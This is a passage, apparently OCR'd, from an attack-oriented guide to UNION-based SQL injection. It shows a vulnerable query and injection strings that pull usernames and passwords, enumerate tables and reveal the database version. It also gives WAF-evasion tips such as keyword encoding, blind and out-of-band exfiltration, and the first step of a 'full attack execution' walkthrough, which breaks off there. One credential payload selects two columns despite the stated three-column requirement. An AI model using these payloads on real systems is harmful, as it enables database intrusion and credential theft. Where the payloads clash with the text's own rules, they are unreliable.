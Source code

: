 - **Example Attack Flow**  
  Suppose the original query is:  
  ```sql
  SELECT id, name, price FROM products WHERE id = '$input'  
  ```  
  An attacker injects:  
  ```sql
  id=1' UNION SELECT id, username, password FROM users-- 
  ```  
  If the column counts match (3 columns), this returns user credentials alongside product data.  

---

### **Common Scenarios and Payloads**  

| **Objective**               | **Example Payload**                                                                 | **Result**                                                                 |  
|-----------------------------|------------------------------------------------------------------------------------|----------------------------------------------------------------------------|  
| **Extract User Credentials** | `id=1' UNION SELECT username, password FROM users--`                               | Returns usernames and hashed passwords from the `users` table.               |  
| **Retrieve Database Version**| `id=1' UNION SELECT @@version, NULL, NULL--`                                      | Exposes the database version (e.g., `MySQL 8.0.23`).                         |  
| **List All Tables**          | `id=1' UNION SELECT table_name, NULL, NULL FROM information_schema.tables--`      | Enumerates all tables accessible to the application’s database user.          |  
| **Combine Fields**           | `id=1' UNION SELECT CONCAT(email,0x3a,password), NULL, NULL FROM users--`         | Merges email and password into a single column (e.g., `user@example.com:pass`). |  

---

### **Limitations and Bypass Techniques**  

#### **Technical Limitations**  
- **Column Count Mismatch**: If the original query and injected `SELECT` have different column counts, an error occurs. Attackers resolve this by adding `NULL` placeholders or using comments (`--`) to truncate excess columns.  
- **Data Type Incompatibility**: Mismatches (e.g., numeric vs. string) can fail the query. Casting or concatenation resolves this.  

#### **Defensive Countermeasures**  
- **Web Application Firewalls (WAFs)**: Block payloads containing `UNION SELECT` keywords.  
- **Input Sanitization**: Properly escape special characters like `'` or `--`.  

#### **Attacker Bypasses**  
- **Keyword Encoding**: Encode `UNION` or `SELECT` to evade WAFs (e.g., `UN%49ON` for URL-encoded payloads).  
- **Time-Based Exfiltration**: Use blind SQLi techniques (e.g., `SLEEP()`) to infer data without direct output.  
- **Out-of-Band Channels**: Leverage DNS or HTTP exfiltration to bypass network restrictions.  

---

### **Example Scenario: Full Attack Execution**  

1. **Identify Vulnerability**:  
   - Test `http://example.com/product.php?id=1' ORDER BY 3--` to confirm 3 columns.  
